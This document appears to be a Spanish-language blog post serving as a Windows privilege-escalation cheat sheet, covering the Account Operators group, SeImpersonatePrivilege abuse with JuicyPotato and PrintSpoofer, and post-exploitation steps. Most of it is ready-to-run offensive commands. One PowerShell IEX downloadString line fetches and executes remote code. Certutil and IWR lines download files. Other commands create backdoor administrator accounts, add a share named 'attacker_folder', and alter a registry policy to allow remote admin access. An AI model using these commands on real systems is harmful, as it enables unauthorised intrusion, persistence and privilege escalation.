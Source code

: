 ```yaml
---
layout: post
title: WindPrivesc - CheetSheat
tags: [windows,CheetSheat]
description: "WindPrivesc - CheetSheat"
---
```



## Grupos y permisos

### Accoutn operators

Otorga privilegios limitados de creación de cuentas a un usuario. Básicamente, esto puede crear y administrar usuarios y grupos en el dominio, incluida su propia membresía y la del grupo de Operadores de servidor.

[https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-accountoperators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-accountoperators)

### SeImpersonatePrivilege

- juicyPotato
- PrintSpoofer

```
JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user TEST TEST123 /add"
```

----

## Transferencia de archivos

```
powershell IEX(New-Object Net.WebClient).downloadString('<http://file>')
certutil.exe -f -urlcache -split <http://file>
IWR -uri <http://file> -OutFile <file>
```

----

## Pwned Psexec

```
cmd /c net user USERX PASSWORD /add
cmd /c net localgroup Administrators USERX /add
cmd /c net share attacker_folder=C:\Windows\Temp GRANT:Administrators,FULL
cmd /c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountFilterPolicy /t REG_DWORD /d 1 /f
```
